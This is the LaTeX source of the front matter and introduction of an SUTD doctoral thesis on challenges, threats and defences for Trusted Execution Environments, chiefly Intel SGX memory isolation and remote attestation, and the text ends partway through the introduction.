%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SUTD Masters/Doctoral Thesis
% LaTeX Template
% Version 1.0 (29/08/16)
%
% Adapted to SUTD requirements by Martin Ochoa
%
% This template is based on a template downloaded from:
% http://www.LaTeXTemplates.com
%
% Version 2.x major modifications by:
% Vel (vel@latextemplates.com)
%
% which in turn was based on a template by:
% Steve Gunn (http://users.ecs.soton.ac.uk/srg/softwaretools/document/templates/)
% Sunil Patel (http://www.sunilpatel.co.uk/thesis-template/)
%
%
% Template license:
% CC BY-NC-SA 3.0 (http://creativecommons.org/licenses/by-nc-sa/3.0/)
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[
11pt, % The default document font size, options: 10pt, 11pt, 12pt
oneside, % Two side (alternating margins) for binding by default, uncomment to switch to one side
english, % ngerman for German
singlespacing, % Single line spacing, alternatives: onehalfspacing or doublespacing
%draft, % Uncomment to enable draft mode (no pictures, no links, overfull hboxes indicated)
%nolistspacing, % If the document is onehalfspacing or doublespacing, uncomment this to set spacing in lists to single
%liststotoc, % Uncomment to add the list of figures/tables/etc to the table of contents
%toctotoc, % Uncomment to add the main table of contents to the table of contents
%parskip, % Uncomment to add space between paragraphs
%nohyperref, % Uncomment to not load the hyperref package
headsepline, % Uncomment to get a line under the header
]{MastersDoctoralThesis} % The class file specifying the document structure

\usepackage[utf8]{inputenc} % Required for inputting international characters
\usepackage[T1]{fontenc} % Output font encoding for international characters

\usepackage{palatino} % Use the Palatino font by default

\usepackage[backend=bibtex,style=authoryear,natbib=true]{biblatex} % User the 
%bibtex backend with the authoryear citation style (which resembles APA)

\addbibresource{biblio.bib} % The filename of the bibliography

\usepackage[autostyle=true]{csquotes} % Required to generate language-dependent 
%quotes in the bibliography


\newcommand{\circled[1]}{\tikz[baseline=(char.base)]{\node[font=\sffamily, 
		shape=circle,draw,inner sep=0.5pt,color=white,fill=black] (char) {#1};}}
	
\newcommand{\circledr[1]}{\tikz[baseline=(char.base)]{\node[font=\sffamily, 
		shape=circle,draw,inner sep=0.5pt,color=white,fill=red] (char) {#1};}}
	
\newcommand{\circledrA}[1]{\tikz[baseline=(char.base)]{\node[font=\sffamily, 
		shape=circle,draw,inner sep=0.5pt,color=white,fill=red] (char) {#1};}}

\usepackage{subcaption}

\hypersetup{%
	colorlinks = true,
	linkcolor  = black
}

\usepackage{tikz}
\def\checkmark{\tikz\fill[scale=0.4](0,.35) -- (.25,0) -- (1,.7) -- (.25,.15) 
-- cycle;} 
\usepackage{subcaption}
\usepackage{listings}

\usepackage[inline]{enumitem}
\usepackage{amsmath}

\usepackage{rotating}

\usepackage{graphics}

\usepackage{multirow}

\usepackage{adjustbox}
\usepackage{blindtext}

\usepackage[ruled,vlined,linesnumbered]{algorithm2e}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.99,0.99,0.99}

\usepackage{ifthen}
\newcommand{\fix}[1]{
	\ifthenelse%
	{\boolean{showcomments}}%
	{\textcolor{red}{#1}}%
	{}%
}

\lstdefinestyle{CStyle}{
	backgroundcolor=\color{backgroundColour},   
	commentstyle=\color{mGreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{mGray},
	stringstyle=\color{mPurple},
	%	basicstyle=\footnotesize,
	basicstyle=\small, %or \tiny \small or \footnotesize etc.
	breakatwhitespace=false,         
	breaklines=true,                 
	captionpos=b,                    
	keepspaces=true,                 
	numbers=left,                    
	numbersep=5pt,                  
	showspaces=false,                
	showstringspaces=false,
	showtabs=false,                  
	tabsize=2,
	xleftmargin=2em,
	framexleftmargin=1.5em,
	language=C
}
\usepackage[titletoc, toc, page]{appendix}

\usepackage{xcolor}
\usepackage{threeparttable}
\usepackage{tabularx}
\usepackage{wasysym}
\usepackage{makecell}

%\usepackage[symbol]{footmisc}
%\renewcommand{\thefootnote}{\fnsymbol{footnote}}

%\makeatletter
%\def\@xfootnote[#1]{%
%	\protected@xdef\@thefnmark{#1}%
%	\@footnotemark\@footnotetext}
%\makeatother

%\long\def\symbolfootnote[#1]#2{\begingroup%
%\def\thefootnote{\fnsymbol{footnote}}\footnotetext[#1]{#2}\footnotemark[#1]\endgroup}

\makeatletter
\newcommand\footnoteref[1]{\protected@xdef\@thefnmark{\ref{#1}}\@footnotemark}
\makeatother

\makeatletter
\def\@xfootnote[#1]{%
	\protected@xdef\@thefnmark{#1}%
	\@footnotemark\@footnotetext}
\makeatother


%----------------------------------------------------------------------------------------
%	MARGIN SETTINGS
%----------------------------------------------------------------------------------------

\geometry{
	paper=a4paper, % Change to letterpaper for US letter
	inner=2.54cm, % Inner margin
	outer=2.8cm, % Outer margin
	bindingoffset=1cm, % Binding offset
	top=2.5cm, % Top margin
	bottom=2.5cm, % Bottom margin
	%showframe,% show how the type block is set on the page
}

%----------------------------------------------------------------------------------------
%	THESIS INFORMATION
%----------------------------------------------------------------------------------------

%\thesistitle{Faith in the Cloud!\\Modern and future challenges for Trusted 
%Execution Environments}
%\thesistitle{Modern challenges, future threats, and novel defenses
%	\\for Trusted Execution Environments}
\thesistitle{Challenges, threats, and novel defences for Trusted Execution 
Environments}

%Ah beer. The cause of and the solution to all of life’s problems.

%The goal of this thesis is to investigate the current limitations of TEE, 
%grasping the future for possible new threats, and study suitable solutions 
%that could be deployed over current technology.

% Your thesis title, this is used in the title and abstract, print it elsewhere 
%with \ttitle
\supervisor{Prof. Jianying \textsc{Zhou}} % Your supervisor's name, this is 
%used in the title page, print it elsewhere with \supname
\examiner{} % Your examiner's name, this is not currently used anywhere in the template, print it elsewhere with \examname
\degree{Doctor of Philosophy} % Your degree name, this is used in the title page and abstract, print it elsewhere with \degreename
\author{Flavio \textsc{Toffalini}} % Your name, this is used in the title page 
%and abstract, print it elsewhere with \authorname
\addresses{} % Your address, this is not currently used anywhere in the template, print it elsewhere with \addressname
\university	{SUTD}
\keywords{} % Keywords for your thesis, this is not currently used anywhere in the template, print it elsewhere with \keywordnames
\pillar{ISTD} % Pillar

\hypersetup{pdftitle=\ttitle} % Set the PDF's title to your title
\hypersetup{pdfauthor=\authorname} % Set the PDF's author to your name
\hypersetup{pdfkeywords=\keywordnames} % Set the PDF's keywords to your keywords

% Define some commands to keep the formatting separated from the content 
\newcommand{\keyword}[1]{\textbf{#1}}
\newcommand{\tabhead}[1]{\textbf{#1}}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\file}[1]{\texttt{\bfseries#1}}
\newcommand{\option}[1]{\texttt{\itshape#1}}

\newcommand{\ie}{\textit{i.e.,} }
\newcommand{\eg}{\textit{e.g.,} }
\newcommand{\wrt}{\textit{w.r.t.\ }}

\newcommand{\todobox}[3]{%
	\colorbox{#1}{\textcolor{white}{\sffamily\bfseries\scriptsize #2}}%
	~\textcolor{blue}{#3} %
	\textcolor{#1}{$\triangleleft$}%
}
\newcommand{\todo}[1]{\todobox{red}{TODO}{#1}}
\newcommand{\feedback}[1]{\todobox{orange}{OK?}{#1}}
\newcommand{\done}[1]{\todobox{blue}{DONE}{#1}}
\newcommand{\rationale}[1]{\todobox{ForestGreen}{RATIONALE}{#1}}



\begin{document}

\frontmatter % Use roman page numbering style (i, ii, iii, iv...) for the pre-content pages

\pagestyle{plain} % Default to the plain heading style until the thesis style is called for the body content

%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\begin{titlepage}
\begin{center}

\begin{figure}
\centering
\includegraphics[width=0.5\textwidth]{Figures/SUTD}
\end{figure}

 \hfill\break\\[2.3cm]

{\huge \bfseries \ttitle}\\[3cm] % Thesis title


Submitted by\\[1cm]
\authorname % Author name - remove the \href bracket to remove the link

\vspace{4em}

Thesis Advisor\\[1cm]
\supname % Supervisor name - remove the \href bracket to remove the link

\vspace{4em}

\pillarname\\[1.5cm] % Research group name and department name

\large{A thesis submitted to the Singapore University of Technology and Design in fulfillment of the requirement for the degree of \degreename}\\[1cm] % University requirement text


{\large \the\year}\\[4cm] % Date
%\includegraphics{Logo} % University/department logo - uncomment to place it

\vfill
\end{center}
\end{titlepage}

%----------------------------------------------------------------------------------------
%	DECLARATION PAGE
%----------------------------------------------------------------------------------------

\begin{tec}
\addchaptertocentry{\tecname}
\begin{tabular}{ll}
	TEC Chair: & Prof. Lu Wei \\
	Main Advisor: & Prof. Jianying Zhou \\
	Co-advisor: & Prof. Mauro Conti (University of Padua) \\
	Co-advisor: & Prof. Lorenzo Cavallaro (King's College London) \\
	Internal TEC member 1: & Prof. Sudipta Chattopadhyay \\
	Internal TEC member 2: & Prof. Dinh Tien Tuan Anh \\
%	External TEC member 1: & Prof. XXXX (optional) \\
%	External TEC member 2: & Prof. XXXX (optional) \\
\end{tabular}
\end{tec}
\vfill\eject

%----------------------------------------------------------------------------------------
%	DECLARATION PAGE
%----------------------------------------------------------------------------------------

% \begin{declaration}
% \addchaptertocentry{\authorshipname}

% \noindent I, \authorname, declare that this thesis titled, \enquote{\ttitle} and the work presented in it are my own. I confirm that:
%
% \begin{itemize}
% \item This work was done wholly or mainly while in candidature for a research degree at this University.
% \item Where any part of this thesis has previously been submitted for a degree or any other qualification at this University or any other institution, this has been clearly stated.
% \item Where I have consulted the published work of others, this is always clearly attributed.
% \item Where I have quoted from the work of others, the source is always given. With the exception of such quotations, this thesis is entirely my own work.
% \item I have acknowledged all main sources of help.
% \item Where the thesis is based on work done by myself jointly with others, I have made clear exactly what was done by others and what I have contributed myself.\\
% \end{itemize}

% I hereby confirm the following:
% \begin{itemize}
% \item I hereby confirm that the thesis work is original and has not been submitted to any other University or Institution for higher degree purposes.
% \item I hereby grant SUTD the permission to reproduce and distribute publicly paper and electronic copies of this thesis document in whole or in part in any medium now known or hereafter created in accordance with Policy on Intellectual Property, clause 4.2.2.
% \item I have fulfilled all requirements as prescribed by the University and provided 1 copy of my thesis in PDF.
% \item I have attached all publications and award list related to the thesis (e.g. journal, conference report and patent).
% \item The thesis does / does not (delete accordingly) contain patentable or confidential information.
% \item I certify that the thesis has been checked for plagiarism via turnitin/ithenticate. The score is 100\%.
% \end{itemize}

% \noindent Name and signature:\\
% \rule[0.5em]{25em}{0.5pt} % This prints a line for the signature

% \noindent Date:\\
% \rule[0.5em]{25em}{0.5pt} % This prints a line to write the date
% \end{declaration}

% \cleardoublepage

%----------------------------------------------------------------------------------------
%	QUOTATION PAGE
%----------------------------------------------------------------------------------------

% Uncomment for quotation page
% \vspace*{0.2\textheight}
%
% \noindent\enquote{\itshape Thanks to my solid academic training, today I can 
%write hundreds of words on virtually any topic without possessing a shred of 
%information, which is how I got a good job in journalism.}\bigbreak
%
% \hfill Dave Barry

%----------------------------------------------------------------------------------------
%	ABSTRACT PAGE
%----------------------------------------------------------------------------------------

\begin{abstract}
\addchaptertocentry{\abstractname} % Add the abstract to the table of contents

Are you sure the last Virtual Machine bought from your Cloud Provider is 
working properly?
The growing popularity of cloud infrastructures allowed online businesses
to benefit of larger market segments, parallelly, armies of adversaries enjoyed 
a vaster set of possible victims.
Additionally, leaving part of the infrastructure on cloud providers de facto 
reduced the companies control over their products, eventually increasing the 
attack surface to either insider or external threats.
This arises the need of advanced protections for the companies' products and 
data.

In this zero trust scenario, a common countermeasure is represented by Trusted 
Execution Environments (TEE). These technologies use hardware mechanisms to 
create \emph{trusted regions} shielded against fully compromised 
systems, thus allowing the companies to protect their assets even if the whole 
data center is compromised.
Specifically, \emph{trusted regions} achieve this goal through 
two properties: \emph{memory isolation} and \emph{remote attestation}.
The former ensures physical isolation of \emph{trusted regions}, thus avoiding 
direct writing to, and reading from, the protected memory pages.
The latter, instead, enables a remote entity to verify the integrity of a 
\emph{trusted region}.

The combination of \emph{memory isolation} and \emph{remote attestation} 
is a solid base for building more secure applications over the Internet. 
TEEs, however, are far from being the final weapons in the security war.
In fact, they suffer from many limitations that range from scalability 
issues to new security threats.
%The goal of this thesis is to investigate the current limitations of TEE, 
%grasping the future for possible new threats, and study suitable solutions 
%that could be deployed over current technology.
The goal of this thesis is to investigate the limitations of TEE, explore new 
threats to TEE, and propose suitable mitigation for TEE.
In particular, we discuss five contributions: three regarding \emph{memory 
isolation}, and two about \emph{remote attestation}.
The first part of the thesis revolves around \emph{memory isolation}.
We address limitations affecting TEEs and propose more flexible designs fitting 
the current market products (Chapter~\ref{chp:static-protection}).
Then, we investigate new threats that exploit the \emph{memory isolation} 
and implant malicious software in a \emph{trusted region} 
(Chapter~\ref{chp:advanced-threats}).
Finally, we study the implication of (compromised) \emph{trusted regions} when 
performing incident response, and propose new techniques to fulfill the current 
gaps (Chapter~\ref{chp:forensic}).

In the second part, we extend the \emph{remote attestation} schemes to 
identify the runtime attacks described in Chapter~\ref{chp:advanced-threats}.
First, we propose a novel model that can be used in software of any complexity, 
thus overcoming the scalability issues of current approaches.
(Chapter~\ref{chp:runtime-protection-untrusted}).
Then, we propose an additional model that fits \emph{trusted regions}'
specifications, thus stretching the runtime protection over memory 
isolated objects (Chapter~\ref{chp:runtime-protection-trusted}).

In conclusion, we summarize the results achieved and draw directions for 
future researches regarding TEE in cloud computing.

\end{abstract}

%----------------------------------------------------------------------------------------
%	Publications
%----------------------------------------------------------------------------------------

\begin{publications}
\addchaptertocentry{\publicationsname} % Add the abstract to the table of contents

\section*{Conference Proceedings}
\begin{itemize}
	
	\item F. Toffalini, J. Zhou, and L. Cavallaro -- Revisiting Program 
	Analysis and Intrusion Detection for SGX -- (under review at CCS 
	2021).\footnote[$\dagger$]{\label{inthesis}These publications are 
	contributions of the thesis.}
	
	\item F. Toffalini, M. Graziano, M. Conti, and J. Zhou -- SnakeGX: a sneaky 
	attack against SGX Enclaves -- In the 19th International Conference on 
	Applied Cryptography and Network Security (ACNS 
	2021). \footnoteref{inthesis}
	
	\item F. Toffalini, E. Losiouk, Biondo A., J. Zhou, and M. Conti -- ScaRR: 
	Scalable Runtime Remote Attestation for Complex Systems -- In the 22nd 
	International Symposium on Research in Attacks, Intrusions and Defenses 
	(RAID 2019). \footnoteref{inthesis}
	
	\item F. Toffalini, M. Ochoa, J. Sun, and J. Zhou -- Careful-Packing: A 
	Practical and Scalable Anti-Tampering Software Protection enforced by 
	Trusted Computing -- In the 9th ACM Conference on Data and Application 
	Security and Privacy (CODASPY 2019). \footnoteref{inthesis}
	
\end{itemize}

\section*{Journal Publications}
\begin{itemize}
	\item F. Toffalini, A. Oliveri, M. Graziano, J. Zhou, and D. Balzarotti -- 
	Following the evidence beyond the wall:	memory forensic in SGX 
	environments -- (under review at FSI Digital 
	Investigation). \footnoteref{inthesis}
	
	\item I. Homoliak, F. Toffalini, J. Guarnizo, Y. Elovici, and M. 
	Ochoa -- Insight Into Insiders and IT: A Survey of Insider Threat 
	Taxonomies, Analysis, Modeling, and Countermeasures -- ACM Computing 
	Surveys (CSUR).
	
\end{itemize}

\section*{Workshop Proceedings}
\begin{itemize}
	
	\item F. Toffalini, I. Homoliak, A. Harilal, A. Binder, and M. Ochoa --  
	Detection of Masqueraders Based on Graph Partitioning of File System 
	Access Events -- In IEEE Security and Privacy Workshops (SPW 2018).
	
	\item A. Harilal, F. Toffalini, J. Castellanos, J. Guarnizo, I. Homoliak,  
	and M. Ochoa -- TWOS: A Dataset of Malicious Insider Threat Behavior Based 
	on a Gamified Competition -- The 9th ACM CCS International Workshop on 
	Managing Insider Security Threats (MIST 2017).	
\end{itemize}


\end{publications}

%----------------------------------------------------------------------------------------
%	ACKNOWLEDGEMENTS
%----------------------------------------------------------------------------------------

\begin{acknowledgements}
\addchaptertocentry{\acknowledgementname} % Add the acknowledgements to the 
%table of contents

I would like to acknowledge the following people for their help and support 
along my PhD journey in Singapore.

In the first place, I want to thank all the supervisors I met in these years. 
I have been gifted by Mart\'{\i}n, Mauro, Jianying, and Lorenzo with their 
personal vision of the research.
%Martin for accepting me in SUTD, thus making me start this adventure. 
%Then, Mauro, who helped me once I really needed the most, and Jianying for 
%adopting me in his group.
%Finally, Lorenzo, for his extraordinary teaching and inspirational vision.
I can only hope to grasp a bit of their wisdom.

I also desire to spend few words for my (extended) research group, with whom I 
shared my thoughts, fears, and hopes. Thanks, John, Eric, Juan, Athul, Andrei, 
Mujeeb, Sridhar, and all the inestimable people I came across. 

A special thought to all the enthusiastic collaborators that I had the luck to 
work with outside Singapore: Eleonora, Alessandro, Andrea B., Mariano, Davide, 
Andrea O., Giulio, Jacopo, Fukutomo, Fabio, Feargus, and Zeliang.
Each and every of them envisioned me with a peculiar and unique perspective, 
pushing my limits always a little further.

Outside academia, I feel to thank my friends: Yvonne, Cem, Sakshi, 
Esra, Daniele, Daniel, Francesco, and a long list of people that otherwise
require additional pages.

In the end, I leave the deepest thank to my wife Anna: an inexplicable gem 
that 
enlightened the darkest moments. Finally my parents, Lucia and Lino, without 
them I could not be here now.


\end{acknowledgements}

%----------------------------------------------------------------------------------------
%	LIST OF CONTENTS/FIGURES/TABLES PAGES
%----------------------------------------------------------------------------------------

\tableofcontents % Prints the main table of contents

\listoffigures % Prints the list of figures

\listoftables % Prints the list of tables

%----------------------------------------------------------------------------------------
%	ABBREVIATIONS
%----------------------------------------------------------------------------------------

% Uncomment for abbreviations page
% \begin{abbreviations}{ll} % Include a list of abbreviations (a table of two columns)
%
% \textbf{LAH} & \textbf{L}ist \textbf{A}bbreviations \textbf{H}ere\\
% \textbf{WSF} & \textbf{W}hat (it) \textbf{S}tands \textbf{F}or\\
%
% \end{abbreviations}

%----------------------------------------------------------------------------------------
%	PHYSICAL CONSTANTS/OTHER DEFINITIONS
%----------------------------------------------------------------------------------------

% Uncomment for physical constants etc
% \begin{constants}{lr@{${}={}$}l} % The list of physical constants is a three column table
%
% % The \SI{}{} command is provided by the siunitx package, see its documentation for instructions on how to use it
%
% 	Speed of Light & $c_{0}$ & \SI{2.99792458e8}{\meter\per\second} (exact)\\
% %Constant Name & $Symbol$ & $Constant Value$ with units\\
%
% \end{constants}

%----------------------------------------------------------------------------------------
%	SYMBOLS
%----------------------------------------------------------------------------------------

% Uncomment for symbols
% \begin{symbols}{lll} % Include a list of Symbols (a three column table)
%
% $a$ & distance & \si{\meter} \\
% $P$ & power & \si{\watt} (\si{\joule\per\second}) \\
% %Symbol & Name & Unit \\
%
% \addlinespace % Gap to separate the Roman symbols from the Greek
%
% $\omega$ & angular frequency & \si{\radian} \\
%
% \end{symbols}

%----------------------------------------------------------------------------------------
%	DEDICATION
%----------------------------------------------------------------------------------------

\dedicatory{To the priceless love daily received by my wife Anna, my mum 
Lucia, and my father Lino \dots}

%----------------------------------------------------------------------------------------
%	THESIS CONTENT - CHAPTERS
%----------------------------------------------------------------------------------------

\mainmatter % Begin numeric (1,2,3...) page numbering

\pagestyle{thesis} % Return the page headers back to the "thesis" style

% Include the chapters of the thesis as separate files from the Chapters folder
% Uncomment the lines as you write the chapters

\chapter{Introduction} % Main chapter title
\label{chp:introduction} 

%\todo{numbers!}

Modern online companies make broadly use of cloud computing infrastructures for 
carrying their business.
Among the cloud providers, the most popular and technologically advanced 
are Amazon Web Services (AWS), Microsoft Azure (Azure), and Google Cloud 
Platform (GCP)~\citep{flexera_report}.
To have a glance about the magnitude of their business, the second quarter of 
2020 showed a growth of $62$\% of Azure respect the same period in the 
previous year, with investments of $79.9$M USD, $78$M 
USD, and $76.7$M USD from Verizon, MSI Computer, and LG Electronics, 
respectively \citep{azure_business}.
We can observer similar figures in Amazon AWS services, that enjoyed a net 
sales growth from $17.5$B USD in 2018 to $25.5$B USD in 2019, reaching $1$M of 
active users in 2020 \citep{aws_business}.
In 2019 fiscal-year, GCP showed a growth of $153$\%, while $786$ tech companies 
choose this provider for their businesses in 2020 \citep{google_business}.

The widespread of cloud computing technologies arose the attention of security
experts concerning the protections of third part 
infrastructures~\citep{ryan2011cloud,sun2014data}.
Check Point and McAffe surveyed the possible threats that could target
cloud services~\citep{checkpoint_cloud,mcaffee_cloud}.
Such problems reveal to be even more critical when considering that a huge part 
of could infrastructures (\ie the host machines) are out of the companies 
control.
In this scenario, leaving part of the control to the could provider means 
trusting the vendor (\eg Azure or AWS) can reach certain security standards.
The risks are various, for instance, a malicious GCP's system admin could 
record the network traffic, access to the user's data, or tamper with the 
virtual machines (VM) themselves~\citep{insider_threat}.
%Moreover, recent works showed that two VMs, sharing the same host, can 
%exchange information solely relying on the CPU cache~\citep{maurice2017hello}. 
%This means that a VM can carry out attacks toward other VMs on the same host.

The security risks of cloud infrastructures also impact the final 
user. In fact, a remote client (\eg a smartphone) has no guarantees to 
communicate with the the correct software in the remote 
VM~\citep{beekman2016attestation}, \eg a malicious hypervisor may manipulate 
the physical pages and force a VM to load non-intended 
content~\citep{10.1145/3292006.3300022}.
Another source of insecurity comes from the stored data: passwords and critical 
information are saved in non-volatile devices (\ie hard-drives) that are under 
control of the cloud provider as well, thus inevitably leading to integrity and 
confidentiality issues.
In this scenario, classic cryptography solutions fail since the whole system 
might be compromised, \ie the cloud provider may control the cryptographic keys.
%
One could reduce the risk by adopting mitigation techniques, such as 
Trusted Platform Modules (TPM) to ensure software integrity at the boot phase 
\citep{tpm-isoosi}, sign strict contracts with the cloud providers to secure 
the underline system \citep{aws_dedicated_host}, or employing modern 
cryptographic schemes to protect private data \citep{gentry2009fully}.
%
%such 
%as loading the intended software in a VM (\ie ), securing the underline system 
%(\ie 
%through strict contracts or dedicated hosts -- \cite{aws_dedicated_host}), and
%encrypting the private data (\ie using modern crptographic 
%schemes -- \cite{gentry2009fully}).
However, these solutions are rarely used in practice because either expensive 
or non scalable. The former requires dedicated hosts that are far more 
expensive than standard solutions, moreover TPMs are not common in the cloud 
offer. 
The latter, instead, involves heavy cryptographic schemes that slow down the 
computation, thus incompatible with fast response 
applications~\citep{10.1145/2046660.2046682}.
%
An additional source of threat is represented by classic exploitation 
techniques that may allow an adversary to penetrate through the system 
perimeter.
In this scenario, an adversary may target error-prone services exposed over the 
Internet, take control of the machines, and finally infecting the system 
\citep{van2012memory,10.1145/2810103.2813646}.

%\section{Trusted Execution Environment}

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c1/sgx-architecture.pdf}
	\caption[SGX architecture.]{Simplified TEE architecture.}
	\label{fig:sgx-architecture}
\end{figure}

%\todo{possible solution: TEE. Give intuitive definition.}
For tackling the aforementioned challenges, a promises direction is 
represented by Trusted Execution Environments (TEE).
Intuitively, TEEs are sub-systems, whose functioning remembers virtual 
machines, that use hardware checks to isolate sensitive content against 
untrusted environments.
Historically, the first formal definition of TEE has been proposed by 
\cite{omtp}, that mainly focused on mobile platforms (\eg smartphones).
OMTP defines a list of properties that a TEE should fulfill, among them, this 
thesis will trait the \emph{memory isolation} and the \emph{remote attestation}.
The main purpose of the \emph{memory isolation} is to shield code and data such 
that even a compromised machine cannot alter its integrity and confidentiality.
In particular, the \emph{memory isolation} must prevent tampering from any 
sources at any privilege level, \eg it must avoid writing and reading 
operations from the operating system, system management mode 
code~\citep{yao2009system}, and direct memory 
access~\citep{coke1998implementing}.
The \emph{remote attestation}, instead, guarantees that a third party (\eg a 
smartphone) can verify the integrity of a remote entity (\eg a Web service).
This ensures that a client is communicating with the intended portion of code 
and machine, this latter usually represented by a CPU ID.
Figure~\ref{fig:sgx-architecture} shows a simplified design of a TEE.
Here, the main CPU represents the primary source of trust and enables a user to 
define \emph{trusted regions} in the main memory 
(RAM)~\citep{Sabt2015TrustedEE}.
Then, a remote user can issue a \emph{remote attestation} (RA) to verify the 
integrity of a \emph{trusted region}.
The combination of \emph{memory isolation} and \emph{remote attestation} leads 
to a new range of properties in the cloud environments, \ie a company 
can use the \emph{memory isolation} to protect critical piece of 
software and data from insiders or a compromised host.
%, or even other VMs sharing the same resources.
In addition, the \emph{remote attestation} allows one to establish 
end-to-end secure channels without the need of a trusted OS, thus avoiding the 
leak of cryptographic material.
In addition, the TEEs can use attestation to seal data on non-volatile storage 
(\ie encrypt and decrypt) such that nobody but the original \emph{trusted 
region} can retrieve the content. 
TEEs are peculiar technologies that differ from previous solutions, such as TPM 
ones. Specifically, TPMs require an external hardware (\ie the TPM module), 
while TEEs are embedded in the main CPU.
Moreover, TPMs do not provide memory isolation, can only store limited 
cryptographic material (\eg keys), and expose a limited number functionalities 
already wired in the module by the vendor
(\eg random number generation or cryptographic primitives).
On the contrary, TEEs contain general purpose software that might 
interact with the peripherals.
We provide a detailed TEE background in Chapter~\ref{chp:background}.
%\todo{introduce SGX at least a little bit, because I am gonna cite it later 
%on.}

%%\todo{consider to remove this part at all! why going too deep into SGX now?}
%From the first OMTP definition, many vendors proposed their own TEE technology 
%on the market.
%In 2012, Intel proposed  Trusted Execution Technology 
%(TXT) to measure the software integrity~\citep{greene2012intel}.
%In 2014, ARM introduced the TrustZone technology in new lines of CPU and 
%controllers~\citep{arm-trustzone}. 
%%TrustZone devices can bootstrap two parallel OSs: one called \emph{enriched} 
%%OS, that should handle all the normal operations; and a second one called 
%%\emph{trusted} OS, with the duty to containing critical applications.
%More recently, AMD proposed Secure Encrypted Virtualization 
%(SEV) that shields whole VMs from their host~\citep{amdsev}, likewise,
%Apple proposed a similar technology for their 
%smartphones~\citep{apple-enclave}.
Among the various technologies available on the market, one particularly 
attracted the attention of the cloud vendors: Intel Software Guard eXtensions 
(SGX).
Intel SGX was announced in 2013~\citep{rozas2013intel} and is currently 
adopted 
by many cloud providers, such as Azure~\citep{azure}, 
GCP~\citep{challita2018precise}, IBM~\citep{IBM}, and 
Alibaba~\citep{alibabasgx}.
This technology provides either a strong \emph{memory isolation} and a 
reliable 
\emph{remote attestation} that stand at the backbone of many businesses, such 
as Signal~\citep{signal}.
Due to the important growth of SGX in the recent years, and considering its 
adoption in the cloud computing market, this thesis will consider SGX as main 
TEE technology.
Nevertheless, the contributions discussed in this thesis are generic and can be 
adapted for others TEEs.
SGX calls its \emph{memory regions} as \emph{enclaves}, that reside in 
user space, and provides a \emph{remote attestation} to validate the correct 
\emph{enclave} initialization.
We provide further details about SGX in 
Section~\ref{sec:software-guard-extension}.


%\section{Software Guard eXtensions Overview}
%
%\todo{consider to remove this part at all.}
%The architecture of Intel Software Guard eXtensions (SGX) is synthesized in 
%Figure~\ref{fig:sgx-architecture}.
%SGX assumes the whole system is compromised (\emph{untrusted}) and the 
%CPU is the only root of trust.
%In SGX machines, the kernel can uses dedicated CPU opcodes to instantiate 
%\emph{enclaves}: memory regions in user-space physically isolated from the 
%rest 
%of the system.
%The CPU monitors the correct initialization of SGX \emph{enclaves}, that are 
%thus considered \emph{trusted regions}.
%Moreover, the CPU performs extract controls that ensure \emph{enclaves} 
%\emph{memory isolation}.
%%The booting of an enclave is handled at kernel-space (\ie through a driver) 
%%in 
%%combination with extra CPU checks that ensure the correct \emph{enclave} 
%%loading.
%Once an \emph{enclave} is bootstrapped, a remote entity can perform a 
